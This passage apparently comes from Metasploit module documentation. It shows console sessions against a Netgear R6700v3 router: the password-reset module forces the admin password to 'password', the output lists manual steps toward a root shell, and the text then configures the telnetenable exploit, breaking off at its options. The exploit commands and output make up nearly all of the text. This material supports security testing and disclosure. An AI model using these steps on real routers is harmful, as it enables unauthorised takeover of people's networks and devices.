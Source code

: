 ```
    
    msf auxiliary(admin/http/netgear_r6700_pass_reset) > set RHOSTS 192.168.1.1
    RHOSTS => 192.168.1.1
    msf auxiliary(admin/http/netgear_r6700_pass_reset) > check
    
    [*] Target is running firmware version 1.0.4.82
    [*] 192.168.1.1:5000 - The target appears to be vulnerable.
    msf auxiliary(admin/http/netgear_r6700_pass_reset) > exploit
    [*] Running module against 192.168.1.1
    
    [*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.82_10.0.57) as the target.
    [+] 192.168.1.1:5000 - HTTP payload sent! 'admin' password has been reset to 'password'
    [*] To achieve code execution, do the following steps manually:
    [*] 1- Login to 192.168.1.1 with creds 'admin:password', then:
    [*]     1.1- go to Advanced -> Administration -> Set Password
    [*]     1.2- Change the password from 'password' to <WHATEVER>
    [*] 2- Run metasploit as root, then:
    [*]     2.1- use exploit/linux/telnet/netgear_telnetenable
    [*]     2.2- set interface <INTERFACE_CONNECTED_TO_ROUTER>
    [*]     2.3- set rhost 192.168.1.1
    [*]     2.3- set username admin
    [*]     2.4- set password <WHATEVER>
    [*]     2.5- OPTIONAL: set timeout 1500
    [*]     2.6- OPTIONAL: set MAC <ROUTERS_MAC>
    [*]     2.7- run it and login with 'admin:<WHATEVER>'
    [*] 3- Enjoy your root shell!
    [*] Auxiliary module execution completed
    msf auxiliary(admin/http/netgear_r6700_pass_reset) >
```

Browsed to admin page and changed password to `testing123`, then in a new `msfconsole`
session running as `root`, entered the following commands:

```
    msf > use exploit/linux/telnet/netgear_telnetenable
    [*] No payload configured, defaulting to cmd/unix/interact
    msf exploit(linux/telnet/netgear_telnetenable) > show options
    
    Module options (exploit/linux/telnet/netgear_telnetenable):
    
       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       FILTER                      no        The filter string for capturing traffic
       INTERFACE                   no        The name of the interface
       MAC                         no        MAC address of device
       PASSWORD                    no        Password on device
       PCAPFILE                    no        The name of the PCAP capture file to process
       RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      23               yes       The target port (TCP)
       SNAPLEN    65535            yes       The number of bytes to capture
       TIMEOUT    500              yes       The number of seconds to wait for new data
       USERNAME                    no        Username on device
    
    
    Payload options (cmd/unix/interact):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Exploit target:
    
       Id  Name
```